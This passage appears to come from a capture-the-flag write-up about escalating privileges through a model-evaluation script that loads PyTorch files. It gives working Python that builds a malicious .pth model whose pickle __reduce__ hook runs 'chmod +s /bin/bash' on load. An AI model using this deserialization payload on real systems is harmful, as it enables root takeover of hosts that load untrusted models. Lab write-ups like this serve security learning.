 - **Model Evaluation**:
    
    - If the model file is deemed safe, the script runs the evaluation Python script (`evaluate_model.py`) using the provided model file.



To exploit this, we can create a` .pth` file as this is a `pytorch` file. To create one, we need to create a custom `pytorch` model, inject our malicious payload then save the model as a `.pth`. We can use this payload.

```python
import torch
import torch.nn as nn
import os

class EvilModel(nn.Module):
    
    def __init__(self):
        super(EvilModel, self).__init__()
        self.linear = nn.Linear(10, 1)
    

    def forward(self, xtromera):	
        return self.linear(xtromera)
   
    
    def __reduce__(self):
        cmd = "chmod +s /bin/bash"
        return os.system, (cmd,)


model = EvilModel()

torch.save(model, 'xtromera.pth')
```

Run the payload 

<br/> 
<img src="/img/blurry_screenshots/Pasted image 20241105205409.png" alt="1" style="width:700px; height:auto;">
<br/>

Now run the command as `root`.  
